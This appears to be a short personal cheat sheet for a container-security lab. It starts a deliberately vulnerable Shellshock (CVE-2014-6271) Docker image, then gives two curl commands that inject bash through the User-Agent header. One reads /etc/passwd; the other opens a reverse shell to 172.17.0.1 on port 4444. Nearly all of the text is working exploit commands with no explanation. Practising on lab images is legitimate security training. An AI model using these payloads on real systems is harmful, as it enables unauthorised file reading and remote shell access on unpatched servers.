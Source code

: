 # Container Security

## Hacking 

### images 
Vulanrable image (shell-shoked)
```
docker run --rm -it -p 8080:80 vulnerables/cve-2014-6271
```

### exploits
Get password
```
curl -H "user-agent: () { : ;} ; echo; echo; /bin/bash -c 'cat /etc/passwd' " http://localhost:8080/cgi-bin/vulnerable
```
Reverse shell
```
curl -H "user-agent: () { : ;} ; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1' " http://localhost:8080/cgi-bin/vulnerable
```

